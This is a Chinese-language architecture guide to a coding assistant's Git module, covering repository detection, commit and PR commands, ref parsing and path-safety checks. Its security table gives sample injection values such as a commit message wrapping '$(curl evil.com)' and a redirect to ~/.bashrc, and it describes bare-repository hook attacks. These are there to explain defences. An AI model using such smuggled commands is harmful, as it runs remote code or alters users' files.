


Git 版本控制工具模块为 Claude Code 提供了完整的 Git 仓库操作能力，包括仓库检测、状态查询、提交管理、分支操作以及 PR 工作流。该模块采用**分层安全架构**，在提供便利的 Git 自动化功能的同时，通过多重验证机制防止 Git 相关的沙箱逃逸攻击。

## 核心架构概览

Git 工具系统采用四层架构设计：



**设计原则**：
- **零信任执行**：所有 Git 命令都经过安全验证层，防止路径遍历和命令注入
- **文件系统优先**：状态查询优先使用文件系统解析而非 spawn 子进程，提升性能
- **工作树感知**：正确处理 Git worktree 和 submodule 的复杂场景

Sources: [git.ts](src/utils/git.ts#L1-L50), [gitFilesystem.ts](src/utils/git/gitFilesystem.ts#L1-L30), [bashSecurity.ts](src/tools/BashTool/bashSecurity.ts#L612-L620)

## Git 仓库检测与状态查询

### 仓库发现机制

系统通过向上遍历目录树查找 `.git` 标识来定位 Git 仓库根目录。该实现支持三种仓库形态：

| 仓库类型 | `.git` 形态 | 处理方式 |
|---------|-----------|---------|
| 标准仓库 | 目录 | 直接返回包含 `.git` 的目录 |
| Worktree | 文件（含 `gitdir:` 引用） | 解析 `gitdir` → `commondir` 链定位主仓库 |
| Submodule | 文件（含 `gitdir:` 引用） | 作为独立仓库处理 |

核心函数 `findGitRoot` 使用 LRU 缓存（最大 50 条目）避免重复文件系统遍历，`findCanonicalGitRoot` 进一步解析 worktree 到主仓库的映射，确保跨 worktree 的状态共享。

```typescript
// 仓库检测核心逻辑
export const findGitRoot = (startPath: string): string | null => {
  // 向上遍历直到找到 .git 或到达文件系统根目录
  // 支持 .git 为目录（标准）或文件（worktree/submodule）
}

// 解析 worktree 到主仓库
export const findCanonicalGitRoot = (startPath: string): string | null => {
  // 通过 .git 文件 → gitdir → commondir 链定位主仓库
  // 包含安全验证防止恶意 commondir 指向
}
```

Sources: [git.ts](src/utils/git.ts#L25-L180)

### 状态查询 API

系统提供丰富的 Git 状态查询函数，全部基于文件系统或缓存实现，避免频繁 spawn 子进程：

| 函数 | 返回值 | 用途 |
|-----|-------|-----|
| `getIsGit()` | `Promise<boolean>` | 检查当前目录是否为 Git 仓库 |
| `getBranch()` | `Promise<string>` | 获取当前分支名 |
| `getHead()` | `Promise<string>` | 获取当前 HEAD SHA |
| `getRemoteUrl()` | `Promise<string \| null>` | 获取 origin remote URL |
| `getIsClean()` | `Promise<boolean>` | 检查工作区是否干净 |
| `getFileStatus()` | `Promise<GitFileStatus>` | 获取跟踪/未跟踪文件列表 |
| `getGitState()` | `Promise<GitRepoState \| null>` | 获取完整仓库状态快照 |

状态查询采用**惰性缓存策略**：`GitHeadWatcher` 使用 `fs.watchFile` 监听 `.git/HEAD` 变化，分支和 SHA 信息在文件变更时自动更新。

Sources: [git.ts](src/utils/git.ts#L220-L350), [gitFilesystem.ts](src/utils/git/gitFilesystem.ts#L100-L200)

### 安全验证：裸仓库检测

系统实现了 `isCurrentDirectoryBareGitRepo()` 函数检测**裸仓库攻击**向量。攻击者可能在当前目录创建 `HEAD`、`objects/`、`refs/` 结构，诱使 Git 将 cwd 识别为仓库并执行恶意 hooks。

```typescript
// 裸仓库攻击检测
export function isCurrentDirectoryBareGitRepo(): boolean {
  // 1. 检查 .git/HEAD 是否有效（排除 worktree 误判）
  // 2. 检查 cwd 是否存在裸仓库指标文件：
  //    - HEAD 文件
  //    - objects/ 目录
  //    - refs/ 目录
  // 任一指标存在且无有效 .git 引用时返回 true
}
```

Sources: [git.ts](src/utils/git.ts#L850-L927)

## Git 命令实现

### /commit 命令

`/commit` 命令提供智能提交功能，自动分析变更并生成符合仓库风格的提交消息。

**执行流程**：
1. 收集上下文：`git status`、`git diff HEAD`、当前分支、最近 10 条提交
2. 遵循 Git 安全协议（不修改配置、不跳过 hooks、不使用 `-i` 交互标志）
3. 使用 HEREDOC 语法创建提交，支持多行消息

```typescript
const ALLOWED_TOOLS = [
  'Bash(git add:*)',
  'Bash(git status:*)',
  'Bash(git commit:*)',
]

// 安全协议
// - NEVER update the git config
// - NEVER skip hooks (--no-verify, --no-gpg-sign)
// - NEVER use git commit --amend (除非用户明确要求)
// - NEVER use -i flags (git rebase -i, git add -i)
```

Sources: [commit.ts](src/commands/commit.ts#L1-L40)

### /commit-push-pr 命令

`/commit-push-pr` 实现完整的 PR 工作流自动化：



**关键特性**：
- 自动检测默认分支（main/master/staging）
- 使用 `SAFEUSER` 环境变量生成分支名前缀
- PR 描述包含 Changelog 和 Test plan 模板
- 支持 Slack 通知集成（根据 CLAUDE.md 配置）

Sources: [commit-push-pr.ts](src/commands/commit-push-pr.ts#L1-L80)

### /branch 命令

`/branch` 命令实现**会话分支**功能，允许用户克隆当前对话历史创建新的对话分支。这不是 Git 分支，而是 Claude Code 会话管理系统中的概念分支。

**实现机制**：
1. 复制当前会话的 transcript JSONL 文件
2. 为新会话生成 UUID，保留所有原始元数据（时间戳、gitBranch 等）
3. 添加 `forkedFrom` 追踪信息建立父子关系
4. 处理 `content-replacement` 记录确保 prompt cache 命中

Sources: [branch.ts](src/commands/branch/branch.ts#L1-L100)

## Git 安全机制

### Bash 命令安全验证

`bashSecurity.ts` 实现了针对 Git 命令的专项安全检查 `validateGitCommit`，防止通过 `git commit -m` 进行的命令注入攻击。

**检查项目**：

| 检查项 | 攻击模式 | 防御措施 |
|-------|---------|---------|
| 命令替换检测 | `git commit -m "$(curl evil.com)"` | 检测双引号内的 `$()`、`` ` ``、`${}` |
| 余数验证 | `git commit -m 'x' > ~/.bashrc` | 检查 `-m` 后的剩余部分是否包含 shell 操作符 |
| 反斜线检测 | `git commit -m "test\"msg" && evil` | 包含反斜线时降级到完整验证链 |
| 引号混淆 | `git commit -m """-f" evil` | 检测连续引号混淆模式 |

```typescript
function validateGitCommit(context: ValidationContext): PermissionResult {
  // 1. 仅处理 git commit 命令
  // 2. 包含反斜线时降级到完整验证
  // 3. 检查 -m 参数中的命令替换
  // 4. 验证余数不包含 shell 操作符
  // 5. 处理引号内的 < > (author 邮箱格式)
}
```

Sources: [bashSecurity.ts](src/tools/BashTool/bashSecurity.ts#L612-L720)

### PowerShell Git 路径安全

`gitSafety.ts` 实现了 PowerShell 环境下的 Git 路径验证，防止通过路径操作访问 `.git` 内部文件：

**攻击向量**：
1. **裸仓库攻击**：创建 `HEAD` + `objects/` + `refs/` 使 cwd 被识别为仓库
2. **Git 内部写入 + git 执行**：创建恶意 hooks 后执行 git 命令

**防御机制**：
- `isGitInternalPathPS()`：检测指向 `head`、`objects`、`refs`、`hooks`、`.git` 的路径
- `isDotGitPathPS()`：检测指向 `.git/` 目录的路径
- 路径规范化处理：处理 NTFS 尾随空格/点、8.3 短名称（`GIT~1`）、Provider 前缀

```typescript
// 路径规范化流程
normalizeGitPathArg(arg: string): string {
  // 1. 移除参数前缀 (-Path:, /Path:)
  // 2. 移除引号和反引号转义
  // 3. 移除 PowerShell Provider 前缀 (FileSystem::)
  // 4. 处理驱动器相对路径 (C:foo → foo)
  // 5. NTFS 规范化（尾随空格/点）
  // 6. posix.normalize 解析 .. 和 .
  // 7. 小写转换
}
```

Sources: [gitSafety.ts](src/tools/PowerShellTool/gitSafety.ts#L1-L100)

### Git 操作追踪

`gitOperationTracking.ts` 实现 Git 操作的指标追踪，用于使用量统计和 collapsed tool-use 摘要生成。

**追踪的操作类型**：

| 操作类型 | 检测模式 | 输出格式 |
|---------|---------|---------|
| commit | `git commit` + `[branch sha]` 输出 | `committed a1b2c3` |
| amend | `git commit --amend` | `amended a1b2c3` |
| cherry-pick | `git cherry-pick` | `cherry-picked a1b2c3` |
| push | `git push` + ref update 行 | `pushed branch` |
| merge | `git merge` + `Fast-forward` 输出 | `merged ref` |
| rebase | `git rebase` + `Successfully rebased` | `rebased ref` |
| PR 操作 | `gh pr create/merge/close` | `created PR #42` |

```typescript
export function detectGitOperation(command: string, output: string): {
  commit?: { sha: string; kind: CommitKind }
  push?: { branch: string }
  branch?: { ref: string; action: BranchAction }
  pr?: { number: number; url?: string; action: PrAction }
}
```

Sources: [gitOperationTracking.ts](src/tools/shared/gitOperationTracking.ts#L1-L80)

## Git 文件系统解析

### HEAD 文件解析

`readGitHead()` 函数解析 `.git/HEAD` 文件确定当前分支或 detached SHA 状态：

```typescript
// HEAD 文件格式
// - ref: refs/heads/<branch>\n  — 在分支上
// - ref: <other-ref>\n          — 特殊 symref（如 bisect 期间）
// - <hex-sha>\n                 — detached HEAD（如 rebase 期间）

export async function readGitHead(gitDir: string): Promise<
  { type: 'branch'; name: string } | { type: 'detached'; sha: string } | null
>
```

**安全验证**：
- `isSafeRefName()`：验证分支名仅包含安全字符（字母数字、`/`、`.`、`_`、`+`、`-`、`@`），拒绝路径遍历（`..`）、参数注入（前导 `-`）、shell 元字符
- `isValidGitSha()`：验证 SHA 为 40 位（SHA-1）或 64 位（SHA-256）十六进制

Sources: [gitFilesystem.ts](src/utils/git/gitFilesystem.ts#L100-L180)

### Ref 解析

`resolveRef()` 函数解析 Git ref 到 commit SHA，支持：
- **松散 ref 文件**：直接读取 `.git/refs/heads/<branch>` 内容
- **packed-refs**：解析 `.git/packed-refs` 文件（格式：`<sha> <refname>`）
- **symref 跟随**：递归解析 `ref: <other-ref>` 链

对于 worktree，优先从 worktree gitdir 查找，回退到 common dir（由 `commondir` 文件指向）。

Sources: [gitFilesystem.ts](src/utils/git/gitFilesystem.ts#L180-L280)

### Git Config 解析

`gitConfigParser.ts` 实现 `.git/config` 文件的轻量级解析器：

```typescript
// 解析 [section "subsection"] key = value 格式
export async function parseGitConfigValue(
  gitDir: string,
  section: string,
  subsection: string | null,
  key: string,
): Promise<string | null>
```

**解析特性**：
- Section 名：大小写不敏感，字母数字 + 连字符
- Subsection 名（引号内）：大小写敏感，支持反斜线转义（`\\`、`\"`）
- Key 名：大小写不敏感
- Value：支持引号、行内注释（`#`、`;`）、转义序列（`\n`、`\t`）

Sources: [gitConfigParser.ts](src/utils/git/gitConfigParser.ts#L1-L50)

## Gitignore 处理

### 路径忽略检查

`isPathGitignored()` 使用 `git check-ignore` 命令检查路径是否被忽略，咨询所有适用的 gitignore 源：

```typescript
export async function isPathGitignored(
  filePath: string,
  cwd: string,
): Promise<boolean>
```

**忽略源优先级**（从高到低）：
1. 仓库根目录 `.gitignore`
2. 嵌套目录 `.gitignore`
3. `.git/info/exclude`
4. 全局 gitignore（`~/.config/git/ignore`）

退出码：0 = 已忽略，1 = 未忽略，128 = 不在 Git 仓库中

Sources: [gitignore.ts](src/utils/git/gitignore.ts#L1-L40)

### 全局 Gitignore 管理

`addFileGlobRuleToGitignore()` 函数将文件模式添加到全局 gitignore：

```typescript
export async function addFileGlobRuleToGitignore(
  filename: string,
  cwd: string = getCwd(),
): Promise<void>
```

**执行流程**：
1. 检查是否在 Git 仓库中
2. 使用 `git check-ignore` 验证模式是否已被忽略
3. 创建 `~/.config/git/` 目录（如不存在）
4. 追加模式到 `~/.config/git/ignore`

Sources: [gitignore.ts](src/utils/git/gitignore.ts#L40-L100)

## 高级功能

### 仓库状态快照

`getGitState()` 函数获取完整的仓库状态快照，用于会话恢复和诊断：

```typescript
export type GitRepoState = {
  commitHash: string
  branchName: string
  remoteUrl: string | null
  isHeadOnRemote: boolean
  isClean: boolean
  worktreeCount: number
}
```

### 问题提交状态保存

`preserveGitStateForIssue()` 函数为 issue 提交保存 Git 状态，支持：

- **浅克隆检测**：通过检查 `<gitDir>/shallow` 文件
- **远程 base 查找**：优先级为 tracking branch > origin/main > origin/staging > origin/master
- **Merge-base 计算**：找到 HEAD 与远程分支的共同祖先
- **Patch 生成**：使用 `git diff` 和 `git format-patch` 保存变更
- **未跟踪文件捕获**：带大小限制（单文件 500MB，总计 5GB，最多 20000 文件）

```typescript
export type PreservedGitState = {
  remote_base_sha: string | null
  remote_base: string | null
  patch: string
  untracked_files: Array<{ path: string; content: string }>
  format_patch: string | null
  head_sha: string | null
  branch_name: string | null
}
```

Sources: [git.ts](src/utils/git.ts#L530-L800)

### 远程 URL 规范化

`normalizeGitRemoteUrl()` 函数将 SSH 和 HTTPS URL 转换为统一格式用于哈希：

| 输入格式 | 输出格式 |
|---------|---------|
| `git@github.com:owner/repo.git` | `github.com/owner/repo` |
| `https://github.com/owner/repo.git` | `github.com/owner/repo` |
| `ssh://git@github.com/owner/repo` | `github.com/owner/repo` |

`getRepoRemoteHash()` 使用 SHA256 哈希（前 16 字符）生成仓库全局唯一标识，不暴露实际仓库名。

Sources: [git.ts](src/utils/git.ts#L280-L330)

## 与其他模块的集成

Git 工具与以下模块紧密集成：

| 集成模块 | 集成点 | 用途 |
|---------|-------|-----|
| [BashTool](16-shell-yu-bash-gong-ju) | `bashSecurity.ts` | Git 命令安全验证 |
| [PowerShellTool](16-shell-yu-bash-gong-ju) | `gitSafety.ts` | PowerShell 路径安全 |
| [会话恢复](22-hui-hua-hui-fu-yu-li-shi-ji-lu) | `preserveGitStateForIssue` | Issue 提交状态保存 |
| [权限系统](13-quan-xian-xi-tong-yu-an-quan-kong-zhi) | `gitOperationTracking` | 操作指标追踪 |

## 下一步阅读

完成 Git 版本控制工具的学习后，建议继续阅读：

- **[Shell 与 Bash 工具](16-shell-yu-bash-gong-ju)** — 深入了解 BashTool 的安全验证机制
- **[权限系统与安全控制](13-quan-xian-xi-tong-yu-an-quan-kong-zhi)** — 理解整体安全架构
- **[会话恢复与历史记录](22-hui-hua-hui-fu-yu-li-shi-ji-lu)** — 了解 Git 状态在会话恢复中的应用